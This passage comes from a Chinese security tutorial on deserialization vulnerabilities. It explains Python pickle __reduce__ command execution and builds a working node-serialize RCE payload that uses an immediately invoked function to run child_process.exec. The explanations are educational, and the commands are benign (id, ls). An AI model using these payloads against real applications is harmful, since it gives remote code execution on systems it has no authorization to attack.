 ```
# __reduce__()魔法方法的返回值:
# return(os.system,(cmd,))
# 1.满足返回一个元组，元组中有两个参数
# 2.第一个参数是被调用函数 : os.system()
# 3.第二个参数是一个元组:(cmd,),元组中被调用的参数 cmd
# 4. 因此序列化时被解析执行的代码是 os.system("/usr/bin/id")
```

执行：  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqjuI3Y5lTsL4uhMzmnBhICN3qrtKQTGDJAgovNdo9QEw1RPOO1TSia2yzc9icDb8FOTyGfvcicNDExw/640?wx_fmt=png)

### 5.JavaScript

JavaScript 本身并没有反序列化的实现，但是一些库如 node-serialize、serialize-to-js 等支持了反序列化功能。这些库通常使用 JSON 形式来存储数据，但是和原生函数 JSON.parse、 JSON.stringify 不同，这些库支持任何对象的反序列化，特别是函数，如果使用不当，则可能会出现反序列化问题。

#### #Node.js 反序列化漏洞

Payload 构造

下面是一个最简单的例子，首先获得序列化后的输出

```
var y ={
 rce :function(){
require('child_process').exec('ls /',function(error, stdout, stderr){ console.log(stdout)});
},
}
var serialize =require('node-serialize');
console.log("Serialized: \n"+ serialize.serialize(y));
```

上面执行后会返回

```
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });}"}
```

不过这段 payload 反序列化后并不会执行，但是在 JS 中支持立即调用的函数表达式（Immediately Invoked Function Expression），比如 `(function () { /* code */ } ());` 这样就会执行函数中的代码。那么可以使用这种方法修改序列化后的字符串来完成一次反序列化。最后的 payload 测试如下:

```
var serialize =require('node-serialize');
var payload ='{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```

在实际场景中，node-serialize 等库的应用其实是很少的，并且执行命令需要内部实现，所以该漏洞的影响不大。

三. 利用工具
-------

### Ysoserial
